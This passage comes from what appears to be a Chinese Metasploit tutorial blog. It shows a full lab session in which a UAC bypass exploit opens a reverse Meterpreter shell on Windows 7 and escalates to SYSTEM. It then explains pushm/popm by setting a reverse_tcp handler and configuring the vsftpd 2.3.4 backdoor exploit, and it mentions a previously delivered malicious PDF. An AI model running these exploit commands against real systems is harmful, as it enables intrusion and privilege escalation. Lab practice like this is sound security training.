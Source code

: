 测试：

![Bildschirmfoto 2018-10-30 um 10.47.44 PM.png]({{ site.url }}/images/metasploit/32A3A0E6EE21E905243480370A22F0C2.png)

#### Bypass UAC

之前做的bypass uac都失败了。这次装了一个新的x86 Win7，来试一下：

```
msf > use exploit/windows/local/bypassuac
msf exploit(windows/local/bypassuac) > run

[*] Started reverse TCP handler on 192.168.1.101:4444
[*] UAC is Enabled, checking level...
[+] UAC is set to Default
[+] BypassUAC can bypass this setting, continuing...
[+] Part of Administrators group! Continuing...
[*] Uploaded the agent to the filesystem....
[*] Uploading the bypass UAC executable to the filesystem...
[*] Meterpreter stager executable 73802 bytes long being uploaded..
[*] Sending stage (179779 bytes) to 192.168.1.101
[*] Meterpreter session 3 opened (192.168.1.101:4444 -> 192.168.1.101:61046) at 2018-10-30 22:58:05 +0800

meterpreter > getuid
Server username: WIN-J7CB6NT7B29\rambo
meterpreter > getsystem
...got system via technique 1 (Named Pipe Impersonation (In Memory/Admin)).
```

## 动态切换模块

我经常遇到需要在run一个模块之前切出去使用另一个模块，然后再回来使用这个模块的情况。比如我们在准备exploit一个漏洞的时候，忽然想起之前投递了恶意pdf文件，但是忘记为它开启对反向shell的监听了，那么我们就可以先将当前exploit压栈，去设置一个handler，然后再将当前exploit出栈，很方便。

```bash
msf exploit(unix/ftp/vsftpd_234_backdoor) > set RHOST 172.16.56.130
RHOST => 172.16.56.130
msf exploit(unix/ftp/vsftpd_234_backdoor) > set payload cmd/unix/interact
payload => cmd/unix/interact
msf exploit(unix/ftp/vsftpd_234_backdoor) > pushm
msf exploit(unix/ftp/vsftpd_234_backdoor) > use exploit/multi/handler
msf exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf exploit(multi/handler) > set LHOST 172.16.56.1
LHOST => 172.16.56.1
msf exploit(multi/handler) > set LPORT 4444
LPORT => 4444
msf exploit(multi/handler) > exploit -jz
[*] Exploit running as background job 0.

[*] Started reverse TCP handler on 172.16.56.1:4444

msf exploit(multi/handler) > popm
msf exploit(unix/ftp/vsftpd_234_backdoor) > show options

Module options (exploit/unix/ftp/vsftpd_234_backdoor):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   RHOST  172.16.56.130    yes       The target address
   RPORT  21               yes       The target port (TCP)


Payload options (cmd/unix/interact):
```